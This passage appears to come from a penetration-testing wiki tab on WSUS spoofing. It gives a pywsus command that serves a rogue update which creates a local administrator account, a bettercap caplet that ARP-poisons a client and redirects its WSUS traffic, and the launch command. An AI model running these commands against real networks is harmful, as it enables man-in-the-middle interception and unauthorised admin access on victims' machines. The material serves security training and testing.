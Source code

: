 {% tab title="WSUS spoofing" %}
ARP poisoning for [WSUS spoofing ](wsus-spoofing.md)in a two-subnets layout (attacker + client in the same segment, legitimate WSUS server in another one). Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

The evil WSUS server needs to be started before doing ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)(Python) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
```

Once the WSUS server is up and running, the ARP poisoning attack can start.

{% code title="wsus_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.
{% endtab %}
